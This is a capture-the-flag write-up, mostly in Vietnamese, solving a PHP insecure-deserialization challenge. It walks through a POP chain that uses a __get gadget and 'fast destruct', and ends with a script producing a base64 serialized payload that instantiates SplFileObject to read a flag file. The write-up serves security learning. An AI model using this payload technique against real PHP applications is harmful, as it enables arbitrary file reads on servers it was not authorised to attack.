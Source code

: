 # Solution

Source code:
```php
<?php

highlight_file(__FILE__);

class main{
    public $class;
    public $param;
    public function __construct($class="test",$param="Onion")
    {
        $this->class = $class;
        $this->param = $param;
        echo new $this->class($this->param);
    }
    public function __destruct(){
        echo new $this->class->cc($this->param);
    }

}

class test{
    var $str;
    public function __construct($str)
    {
        $this->str = $str;
        echo ("Welcome to ".$this->str);
    }
}

class do_nothing{
    public $a;
    public $b;
    public function __construct($a,$b){
        $this->a = $a;
        $this->b = $b;
    }
    public function __get($method){
        if(isset($this->a)){
            return $this->b;
        }
        return $method;
    }
}

if(isset($_GET['payload'])){
    unserialize(base64_decode($_GET['payload']));
    throw new Exception("ga");
}
else{
    $main = new main;

}
```

Đây là một bài [POP CHAIN](https://to016.github.io/posts/phpPopChain/) sử dụng kĩ thuật `fast destruct`.

Ở đây dễ thấy method `__destruct__` sẽ trigger gadgets.
Đập vào mắt mình tiếp theo đó là `__get` method của `do_nothing` ở đây để ý method này + `echo new $this->class->cc($this->param);` của `main`.

```php
$d = new do_nothing("ba", "la");
echo $d -> c;
```

Output: `la`

Vậy nếu gán `$class` của `main` thành `do_nothing`, `$a=1` và `$b=<tên hàm>` và truyền thông số cho hàm thông qua `$param` của `main` thì có thể tạo được một class bất kì kèm với một tham số.

Tác giả dùng `echo new $this->class->cc($this->param);` => sẽ trigger method `__toString` của class vừa được tạo.

Và tiếp theo mình viết script để tìm các built-in class trong php có method `__toString`:

```php
$declared_classes = get_declared_classes();

foreach ($declared_classes as $cls){
    if(method_exists($cls, '__toString'))
    {
        echo "FOUND: " . $cls. "\n";
    }
}
```

Sau khi search ở `php.net` thì mình tìm ra được 2 class quan trọng để solve bài này
- `FilesystemIterator`: để tìm vị trí file flag
- `SplFileObject`: để đọc file

Còn về cách áp dụng kĩ thuật `fast destruct` để bypass `throw new Exception("ga");` thì xem tại [đây](https://github.com/hinemo123/WriteUp/tree/master/Deserialize).


Script:

```php
<?php 

class main {}

class do_nothing{
    public $a = 1;
    public $b = "SplFileObject";
}


$dnth = new do_nothing();


$m = new main();
$m -> class = new do_nothing();
$m -> param = "./ahyeah_flag_here_cat_me_plss/flag.php";

#echo serialize(array(1 => $m, 2 => 2));
echo base64_encode('a:2:{i:1;O:4:"main":2:{s:5:"class";O:10:"do_nothing":2:{s:1:"a";i:1;s:1:"b";s:13:"SplFileObject";}s:5:"param";s:39:"./ahyeah_flag_here_cat_me_plss/flag.php";}i:1;i:2;}');
```

Và flag:

![flag](https://user-images.githubusercontent.com/77546253/176494329-01527b07-18fa-490a-afb5-cf870b17d0d3.png)



